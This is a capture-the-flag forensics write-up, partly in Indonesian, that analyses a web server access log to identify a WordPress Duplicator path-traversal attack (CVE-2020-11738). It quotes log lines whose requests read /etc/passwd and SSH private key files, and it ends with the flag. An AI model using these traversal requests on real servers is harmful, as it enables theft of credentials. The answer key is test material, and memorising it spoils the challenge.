

# dev.corp 1/4

## Deskripsi
The famous company dev.corp was hack last week.. They don't understand because they have followed the security standards to avoid this kind of situation. You are mandated to help them understand the attack.

For this first step, you're given the logs of the webserver of the company.

Could you find :
- The CVE used by the attacker ?
- What is the absolute path of the most sensitive file recovered by the attacker ?

Format : `Hero{CVE-XXXX-XXXX:/etc/passwd}`

Here is a diagram representing the company's infrastructure:



## Attachment
[access.log](./Challenge/access.log)

## Solusi
Melihat dari file yang diberikan sepertinya merupakan `access.log` dari sebuah web server. 
Disini terdapat banyak sekali log yang tercatat, namun ditemukan sebuah vulnerability yang memanfaatkan directory traversal atau LFI.

```
internalproxy.devcorp.local - - [02/May/2023:13:12:29 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../etc/passwd HTTP/1.1" 200 2240 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Dari log di atas terlihat bahwa attacker berhasil mendapatkan file `/etc/passwd` memanfaatkan vulnerability tersebut.
Hasil pencarian google menunjukkan bahwa vulnerability tersebut adalah `CVE-2020-11738` yang memanfaatkan vulnerability dari Wordpress Plugin Duplicator untuk membaca file pada sistem.
Informasi selengkapnya bisa ditemukan pada [Exploit DB](https://www.exploit-db.com/exploits/50420).

Kemudian dilanjutkan pencarian berdasarkan vulnerability tersebut, ditemukan lagi log attacker yang mencoba untuk mendapatkan file dari web server.
```
internalproxy.devcorp.local - - [02/May/2023:13:12:46 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa HTTP/1.1" 500 354 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
internalproxy.devcorp.local - - [02/May/2023:13:13:03 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/config HTTP/1.1" 200 531 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
internalproxy.devcorp.local - - [02/May/2023:13:13:17 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa_backup HTTP/1.1" 200 2963 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Dari hasil log di atas, terlihat attacker berusaha untuk mendapatkan file `id_rsa`, `config`, dan `id_rsa_backup`, namun yang berhasil mendapatkan response 200 (yang artinya bisa diakses) adalah `config` dan `id_rsa_backup`.
File paling sensitive yang berhasil didapatkan oleh attacker adalah `id_rsa_backup`

## Flag
### Hero{CVE-2020-11738:/home/webuser/.ssh/id_rsa_backup}
